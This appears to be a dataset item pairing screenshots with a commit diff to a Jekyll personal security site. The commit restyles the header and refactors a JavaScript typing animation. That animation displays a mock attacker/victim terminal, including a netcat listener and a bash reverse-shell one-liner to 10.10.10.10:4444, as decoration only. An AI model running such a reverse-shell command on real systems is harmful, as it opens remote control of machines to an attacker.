

Before and after one commit to 0x574R/0x574R.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1154 px high. Shown: the part 115-1154 px from the top of the window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Add files via upload

```diff
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -168,9 +168,7 @@ h1,h2,h3,h4,h5,h6,button,input,textarea,select{ font-family: inherit }
 code,kbd,samp,pre{ font-family: inherit }
 
 /* Keep header height, visually scale logo without affecting layout */
-header.site{ --header-h: 64px }
-.header-inner{ min-height: var(--header-h) }
-.brand{ position:relative; overflow:visible }
+header.site{ --header-h: 56px }
 .brand .logo{ height:40px; transform: scale(2.3); transform-origin:left center; }
 @media (min-width: 1000px){ .brand .logo{ height:40px; transform: scale(2.6) } }
 
@@ -184,9 +182,7 @@ header.site{ --header-h: 64px }
 html, body, *:not(svg):not(path){ font-family: var(--font-mono) !important; letter-spacing: 0 }
 
 /* Keep header height, scale logo visually */
-header.site{ --header-h: 64px }
-.header-inner{ min-height: var(--header-h) }
-.brand .logo{ height:40px; transform: scale(2.6); transform-origin:left center }
+header.site{ --header-h: 56px }
 
 /* === Remove ANY background from code areas (Rouge/Markdown) === */
 .highlight, .rouge-table, .rouge-table td, .rouge-table pre, pre.highlight, .highlight pre, .highlight code, .post-body pre, .post-body code{
@@ -215,3 +211,9 @@ pre[class*="language-"], code[class*="language-"]{ background: transparent !impo
 .token.atrule,.token.attr-value,.token.keyword{ color:#c678dd }
 .token.function,.token.class-name{ color:#61afef }
 .token.regex,.token.important,.token.variable{ color:#d19a66 }
+
+/* Terminal colors per panel */
+.hero-term.attacker .prompt.red{ color:#ff6b6b }
+.hero-term.victim .prompt.green{ color:#41d692 }
+.hero-term.attacker .term-text{ color:#bfe6ff }
+.hero-term.victim  .term-text{ color:#b8f8c6 }
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -34,33 +34,34 @@
 
 
 
-// Robust terminal typing animation v2 (no "undefined", full lines)
+
+
+// Stagger reveal for cards
+(function(){
+  const cards = Array.from(document.querySelectorAll('.grid .card'));
+  if(!cards.length) return;
+  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*70)+'ms'; });
+})();
+
+
+// Terminal typing animation v3 (colored prompts, proper newlines, no duplicates)
 (function(){
   const A = document.querySelector('[data-ty="a"]');
   const B = document.querySelector('[data-ty="b"]');
   if(!A || !B) return;
 
-  const seqA = [
-    "attacker@razor$ ncat -lvnp 4444",
-    "listening on [any] 4444 ...",
-    "connection received from 10.10.10.42"
-  ];
-  const seqB = [
-    "victim@host$ bash -i >& /dev/tcp/10.10.10.10/4444 0>&1",
-    "victim@host$ whoami",
-    "www-data"
-  ];
+  const seqA = ["ncat -lvnp 4444", "listening on [any] 4444 ...", "connection received from 10.10.10.42"];
+  const seqB = ["bash -i >& /dev/tcp/10.10.10.10/4444 0>&1", "whoami", "www-data"];
 
   function typeLine(el, text, delay){
     return new Promise(resolve=>{
       let i = 0;
       function step(){
         if(i < text.length){
-          el.textContent += text[i];
-          i++;
+          el.textContent += text[i++];
           setTimeout(step, delay);
         }else{
-          el.textContent += "\\n";
+          el.textContent += "\n";
           resolve();
         }
       }
@@ -70,27 +71,38 @@
 
   async function runOnce(){
     A.textContent = ""; B.textContent = "";
-    for (let i=0;i<Math.max(seqA.length, seqB.length);i++){
-      if(seqA[i]) await typeLine(A, seqA[i], 28);
-      if(seqB[i]) await typeLine(B, seqB[i], 28);
+    for (let i=0; i<Math.max(seqA.length, seqB.length); i++){
+      if(seqA[i]) await typeLine(A, seqA[i], 24);
+      if(seqB[i]) await typeLine(B, seqB[i], 24);
     }
   }
 
   const grid = document.querySelector('.term-grid');
-  if(!grid){ runOnce(); return; }
   let played = false;
   const io = new IntersectionObserver((entries)=>{
-    entries.forEach(e=>{
-      if(e.isIntersecting && !played){ played = true; runOnce(); }
-    });
-  }, {threshold:.15});
-  io.observe(grid);
+    entries.forEach(e=>{ if(e.isIntersecting && !played){ played = true; runOnce(); } });
+  }, {threshold:.12});
+  if(grid) io.observe(grid); else runOnce();
 })();
 
 
-// Stagger reveal for cards
+// Convert Rouge blocks to Prism-compatible and trigger highlighting
 (function(){
-  const cards = Array.from(document.querySelectorAll('.grid .card'));
-  if(!cards.length) return;
-  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*70)+'ms'; });
+  function convertRouge(){
+    document.querySelectorAll('div.highlighter-rouge').forEach(wrapper=>{
+      const code = wrapper.querySelector('pre.highlight > code');
+      if(!code) return;
+      const lang = (Array.from(code.classList).find(c=>c.startsWith('language-'))||'').replace('language-','') || 'clike';
+      const pre = document.createElement('pre');
+      const inner = document.createElement('code');
+      pre.className = 'language-' + lang;
+      inner.className = 'language-' + lang;
+      inner.textContent = code.textContent;
+      pre.appendChild(inner);
+      wrapper.replaceWith(pre);
+    });
+    if(window.Prism && Prism.highlightAll) Prism.highlightAll();
+  }
+  if(document.readyState !== 'loading') convertRouge();
+  else document.addEventListener('DOMContentLoaded', convertRouge);
 })();
--- a/index.html
+++ b/index.html
@@ -15,14 +15,20 @@ title: "Inicio"
   </div>
 
 
-  <div class="term-grid reveal">
-    <div class="hero-term" id="attacker">
-      <pre class="line"><code data-ty="a"></code><span class="cursor"></span></pre>
-    </div>
-    <div class="hero-term" id="target">
+  <div class="hero-term" id="target">
       <pre class="line"><code data-ty="b"></code><span class="cursor"></span></pre>
     </div>
   </div>
+
+  <div class="term-grid reveal">
+    <div class="hero-term attacker" id="attacker">
+      <pre class="line"><span class="prompt red">attacker@razor$ </span><span class="term-text" data-ty="a"></span><span class="cursor"></span></pre>
+    </div>
+    <div class="hero-term victim" id="target">
+      <pre class="line"><span class="prompt green">victim@host$ </span><span class="term-text" data-ty="b"></span><span class="cursor"></span></pre>
+    </div>
+  </div>
+
 </section>
 
 
@@ -47,6 +53,16 @@ title: "Inicio"
       <pre class="line"><code data-ty="b"></code><span class="cursor"></span></pre>
     </div>
   </div>
+
+  <div class="term-grid reveal">
+    <div class="hero-term attacker" id="attacker">
+      <pre class="line"><span class="prompt red">attacker@razor$ </span><span class="term-text" data-ty="a"></span><span class="cursor"></span></pre>
+    </div>
+    <div class="hero-term victim" id="target">
+      <pre class="line"><span class="prompt green">victim@host$ </span><span class="term-text" data-ty="b"></span><span class="cursor"></span></pre>
+    </div>
+  </div>
+
 </section>
 
 
```
